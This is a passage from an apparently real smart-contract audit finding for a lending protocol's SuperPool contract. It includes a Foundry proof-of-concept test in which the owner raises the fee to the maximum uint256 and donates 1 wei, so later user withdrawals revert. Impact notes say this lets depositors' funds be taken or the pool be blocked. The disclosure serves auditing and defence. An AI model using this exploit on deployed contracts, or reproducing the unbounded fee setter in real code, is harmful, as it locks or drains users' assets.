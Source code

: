 ```solidity
    // Assets before withdrawal: 1 ether
    assertEq(superPool.convertToAssets(superPool.balanceOf(user)), 1 ether);

    superPool.redeem(shares / 10, user, user);
    vm.stopPrank();

    // Assets after withdrawal: 0.9 ether
    assertEq(superPool.convertToAssets(superPool.balanceOf(user)), 0.9 ether);

    // --- SuperPool owner requests for the fee update (1% -> MAX%) ---
    // Before the fee update (1%)
    assertEq(superPool.fee(), 0.01 ether); // 1%

    vm.startPrank(poolOwner);
    superPool.requestFeeUpdate(type(uint256).max); // MAX%

    vm.warp(24 hours + 1 seconds);
    superPool.acceptFeeUpdate();

    // After the fee update (MAX%)
    // Incorrect implementation, not aligned with the spec
    assertEq(superPool.fee(), type(uint256).max); // MAX%

    // --- Donate 1 wei to trigger the DoS ---
    asset1.mint(poolOwner, 1 wei);
    asset1.transfer(address(superPool), 1 wei);
    vm.stopPrank();

    // --- User tries to redeem another 10% of the deposited amount (0.1 ether) ---
    // Remaining deposited amount == 0.9 ether
    vm.startPrank(user);
    vm.expectRevert(); // Tx will revert with "Arithmetic Underflow error"
    superPool.redeem(shares / 10, user, user);
}
```

## Impact

**Although the impact may be high or even critical, since the sponsor assumes the `SuperPool` owners are trustworthy, I raised this issue as only medium severity.**

The following are the [impacts]( https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/SuperPool.sol#L660) (`@5`) of the vulnerability:
1. All accrued interests and depositors' principal assets can be stolen (by mistakes).
2. The huge enough `fee` can block (DoS) the `SuperPool`'s functions (Please refer to the `coded PoC`).

## Code Snippet

- `@1`: https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/SuperPool.sol#L140
